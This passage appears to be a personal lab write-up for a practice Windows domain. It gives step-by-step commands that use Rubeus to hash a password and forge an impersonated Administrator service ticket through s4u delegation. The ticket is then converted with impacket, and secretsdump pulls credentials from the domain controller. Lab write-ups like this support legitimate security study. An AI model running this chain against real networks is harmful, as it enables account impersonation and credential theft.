 ![[PG/Windows/attachments/Pasted image 20250706141450.png]]

Then use Rubeus to hash plaintext password into RC4_HMAC

```
.\Rubeus.exe hash /password:Password1!
```

![[PG/Windows/attachments/Pasted image 20250706141532.png]]

FINALLY use Rubeus s4u module to get service ticket for service name we are pretending to be admin for.

```
.\Rubeus.exe s4u /user:cadet$ /rc4:7FACDC498ED1680C4FD1448319A8C04F /impersonateuser:Administrator /msdsspn:cifs/resourcedc.resourced.local /ptt
```

![[PG/Windows/attachments/Pasted image 20250706142618.png]]
![[PG/Windows/attachments/Pasted image 20250706142633.png]]

![[PG/Windows/attachments/Pasted image 20250706142648.png]]

Save the last ticket that is outputted.

Save this to tickt.kirbi and align left with `:%le`
![[PG/Windows/attachments/Pasted image 20250706141950.png]]

![[PG/Windows/attachments/Pasted image 20250706143455.png]]

Base64 decode and save as ticket.kirbi 
```
cat tickt.kirbi | base64 -d > ticket.kirbi
```

Then run impacket's ticket converter
```
impacket-ticketConverter ticket.kirbi ticket.ccache 
```

![[PG/Windows/attachments/Pasted image 20250706144033.png]]
Then export the .ccache
```
export KRB5CCNAME=ticket.ccache
```

Then use impacket's secrets dump to login as administrator
```
impacket-secretsdump -k -no-pass resourcedc.resourced.local
```


![[PG/Windows/attachments/Pasted image 20250706144528.png]]

![[PG/Windows/attachments/Pasted image 20250706144609.png]]
